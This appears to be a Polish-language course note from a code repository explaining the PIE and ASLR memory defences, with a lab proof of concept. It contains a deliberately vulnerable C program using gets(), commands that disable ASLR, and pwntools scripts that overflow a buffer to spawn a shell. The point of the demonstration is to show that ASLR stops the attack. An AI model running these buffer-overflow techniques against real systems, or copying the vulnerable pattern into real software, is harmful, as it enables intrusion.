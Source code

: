 # 1. ASLR & PIE

Techniki obrony ASLR i PIE są ze sobą sciśle powiązane, dlatego ich omówienie znajduję się w jednym pliku.

### 1.1 PIE

PIE (Position indepented executable) - jest to sposób kompilacji kodu w taki sposób, że jest on niezależny od pozycji w pamięci.

Można to zobaczyć disassemblując plik kompilowany bez i z PIE. 

W przypadku pliku bez PIE adresy są zapisane w kodzie. 

![img_5.png](img/img_5.png)

W przypadku pliku z PIE liczone są offsety.

![img_4.png](img/img_4.png)

Widzimy to w callach.

Wpływ PIE na performance aplikacji jest dość duży. Biorąc za przykład architekturę 32bitową domyślnym zachowaniem kompilatora jest zarezerwowanie rejestru `ebx` jako adresu przetrzymującego adres tablicy GOT z której otrzymywane są pozostałe adresy. To generuje spadek performance'u - musimy ustalać adresy pośrednio.

Generuje to sporo problemów. Zostaje nam odebrany jeden rejestr do używania w trakcie realizacji programu. Dodatkowo rejestr `ebx` używany jest jako rejestr, w którym znajdują się argumenty w syscall'ach. Przez to przekazywanie argumentów jest skompliowane i wymaga dodatkowych instrukcji `push pop`.

Badania mówią o średnio 10% spadku wydajności. Maksymalnie do 25%. 

PIE pozwala na lepsze użycie ASLR.

### 1.2 ASLR

ASLR (Address space layout randomization) - to technika polegająca na losowym umieszczeniu sekcji programu, aby uniemożliwić
skakanie do danych sekcji. Jest to dość duże utrudnienie w atakach binarnych. W dużej cześci ataków oznacza to po prostu zgadywanie danej wartości do skutku.

ASLR najlepiej stosować na kodzie skompilowanym z PIE, wtedy możemy załadować kod i PLT do losowych adresów, w przeciwnym razie kod i PLT jest statyczny, a losowość dotyczy jedynie bibliotek, stosu oraz sterty.

Samo ASLR może okazać się pomocne w obronie przed atakami na wykonywalny stos - wtedy skok na taki stos nie jest prosty, bo jego adres jest losowy. Jest to też dobra obrona przed atakami typu ROP oraz ret2libc.

ASLR utrudnia ataki polegające na liczeniu offsetu, lub pozycji danych w pamięci. Na architekturze 32bit losowość jest dość mała, więc przestrzeń adresową da się obejść atakiem siłowym. Jednak w przypadku 64 bit jest to już spory problem.

Ważny aspektem ASLR jest także entropia samego losowania, która powinna być jak największa dla większego bezpieczeństwa.

##### Przykład:

Ten sam kod uruchomiony dwa razy ma inna przestrzeń adresową.

![img_6.png](img/img_6.png)

![img_7.png](img/img_7.png)



Główna róznica pomiedzy implementacją Linuxową i Windowsową jest to, że w Linuxie jest to opcja compile-time, a w Windowsie link-time.

W Linuxie ASLR jest implementowane w kernelu. Na linuxie ASLR ma wpływ na performance przez to, że binarki obsługujące ASLR muszą być kompilowane z PIE (Position Independent Executable), co prowadzi nawet do 25% gorszego performance'u na 32bit x86. 


Na Windowsie ASLR jest włączany poprzez linkowanie z opcja `/DYNAMICBASE`. Na windowsie wpływ na performance run-time jest raczej niewielki, ale ASLR może spowolnić ładowanie modułów.

### 1.3 Proof of Concept - sterowanie wykonaniem programu bez randomizacji

Exploit nie używa wykonalnego stosu.

Przed wykonaniem tego exploitu wyłączyłem ASLR w swoim systemie. Odbywa się to za pomocą ustawienia flagi w systemie.

Można to zrobić np. tak `echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`.

Aby ASLR włączyć na nowo należy ustawić flagę na 2 - ``echo "2" | sudo dd of=/proc/sys/kernel/randomize_va_space``.

Kod programu, który bedzie exploitować jest następujący:

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void secret() {
system("sh");
}

void ask_for_name()
{
char name[12] = {0};
puts("What's your name?");
gets(name);
printf("Hi %s!\n", name);
}

int main()
{
ask_for_name();
return 0;
}
```

Chcę wywołać funkcję secret spawnującą shella. Aby to zrobić chce nadpisać adres powrotu funkcji `ask_for_name()` na właśnie tą funkcje.

Na początku staram się otrzymać lokalizacje rejestru `eip` przesyłając do ofiary duży string z podłączonym debuggerem.


```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO"

p.sendline(name)
```

![img.png](img/img.png)


W rejestr `eip` trafiła litera G. Co pozwala mi ustalić miejsce, w które wstrzykne adres funkcji secret().

Adres funkcji `secret()` uzyskam używając gdb.

![img_2.png](img/img_2.png)

Adres ten muszę też przekształcić do little endian.



```python
from pwn import *

p = process("./vuln.o")

name = b'AAAABBBBCCCCDDDDEEEEFFFF'
name += b'\xc9\x61\x55\x56'

p.sendline(name)
```

W tym momencie exploit powinien działać i wywoływać funkcję secret.

![img_1.png](img/img_1.png)

Exploit działa jeśli flaga od ASLR jest ustawiona na 0.

W momencie ustawienia jej na 2 exploit nie działa - adres, który nadpisuję nie jest adresem funkcji `secret`. Program został załadowany pod inny adres.

![img_3.png](img/img_3.png)

Adres, który wywołuje `eip` jest losowym adresem, więc wykonanie konczy się `SIGSEGV`, bo program chciał odnieść się do zabronionej dla niego pamięci.

Warto dodać, że w przypadku wykonania exploitu na programie kompilowanym z PIE, ale z wyłączonym ASLR - exploit działa. Samo PIE bez ASLR nie chroni przed takim atakiem.

### 1.4 Proof of concept - atak typu ROP

W tym momencie warto byłoby przyjrzeć się atakom typu ROP. 

Ideą takiego ataku jest wykorzystanie fragmentów kodu znajdujących się już w naszej aplikacji. Nie muszą to być fragmenty, które są kodem. Tekst zawierający odpowiednie sekwencje bitów lub kod bibliotek jeżeli są linkowane statycznie jest również możliwy do wykorzystania.

Atakujący za pomocą ROP szuka małych fragmentów assemblera, które kończą się instrukcja `ret`, czyli `c3`. W taki sposób fragment takiego kodu jest wykonywany mimo niewykonywalnego stosu. Kod nie jest wykonywane na stosie. Ze stosu są jedynie pobierane adresy fragmentów kodu - tzw. ROP Gadgetów. 

Naszym zadaniem jest więc załadować do rejestrów odpowiednie wartości i wywołać `execve` za pomocą łańcucha takich Gadgetów nazywanego ROP chain.

### 1.5 Wnioski

PIE i ASLR są technikami bardzo komplementarnymi i używanie ich razem daje największą ochronę. 